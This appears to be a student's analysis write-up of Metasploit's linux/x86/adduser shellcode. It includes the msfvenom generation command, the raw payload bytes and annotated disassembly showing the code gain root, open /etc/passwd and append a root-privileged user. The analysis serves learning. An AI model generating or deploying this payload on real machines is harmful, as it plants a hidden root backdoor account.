




# linux/x86/adduser
- Analysis by: William Moody
- PA-25640

I first dumped the shellcode:
`msfvenom -p linux/x86/adduser USER=user PASS=pass -f c`

Then pasted it into `shellcode.c`, and compiled with:
`gcc shellcode.c -o shellcode`.

Libemu didn't give any meanigful output for this shellcode. I did however use the 
output of ndisasm, created with this command:
`echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x75\x73\x65\x72\x3a\x41\x7a\x77\x31\x37\x63\x54\x6e\x6e\x4a\x41\x41\x41\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - -b 32 -p intel > linux-x86-adduser.ndisasm`

To analyze the shellcode itself I decided to use GDB with the [pwndbg plugin](https://github.com/pwndbg/pwndbg). 

**First I needed to skip my runner code and get to the actual shellcode. The commands needed are:**
```
b*main+201
r
stepi
```

**The first thing the shellcode does is set the real and effective user id of the process to 0 (root)**



`setreuid(0, 0);`

```
00000000  31C9              xor ecx,ecx				; ECX = 0
00000002  89CB              mov ebx,ecx				; EBX = 0
00000004  6A46              push byte +0x46
00000006  58                pop eax					; EAX = 0x46
00000007  CD80              int 0x80				; setreuid(...)
```

**Next open "/etc/passwd", which is the file where users are defined on linux**



`int fd = open("/etc/passwd", 0x401);`

```
00000009  6A05              push byte +0x5
0000000B  58                pop eax					; EAX = 0x5
0000000C  31C9              xor ecx,ecx				; ECX = 0
0000000E  51                push ecx				
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f	; Push "/etc//passwd\x00"
0000001E  89E3              mov ebx,esp				; EBX = *"/etc/passwd\x00"
00000020  41                inc ecx					; ECX = 1
00000021  B504              mov ch,0x4				; ECX = 0x401 = O_NOCTTY | O_WRONLY 
00000023  CD80              int 0x80				; open(...)
```

**Assembly code from here on was incorrectly disassembled by ndisasm, so I won't include it. What happens is:**

`buf` is a predefined series of characters with the value
`"user:Azw17cTnnJAAA:0:0::/:/bin/sh\n"`

The shellcode appends this line to "/etc/passwd"



`write(fd, buf, len(buf));`

Then the shellcode exits without setting a specific status code:



`exit();`
